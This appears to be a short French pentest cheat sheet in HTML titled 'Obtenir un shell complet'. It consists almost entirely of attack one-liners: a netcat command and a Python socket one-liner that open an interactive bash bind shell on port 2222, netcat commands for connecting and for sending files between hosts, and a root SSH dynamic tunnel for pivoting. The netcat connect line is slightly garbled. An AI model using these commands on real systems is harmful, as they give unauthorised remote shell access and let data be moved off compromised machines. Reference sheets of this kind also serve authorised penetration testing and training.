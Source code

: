 <h2>Obtenir un shell complet</h2>
<ul>Ouvrent un shell sur le port 2222 :
  <li>nc -lvp 2222 -e /bin/bash</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"</li>
</ul>
On se connecte avec nc -nv 2222 adress port</br>

Envoi fichier :</br>
nc -l -p 1234 > out.file</br>
nc -w 3 [destination] 1234 < out.file</br>


Tunnel ssh dynamique sur le port local 8080:</br>
ssh -ND 8080 root@addressIP</br>
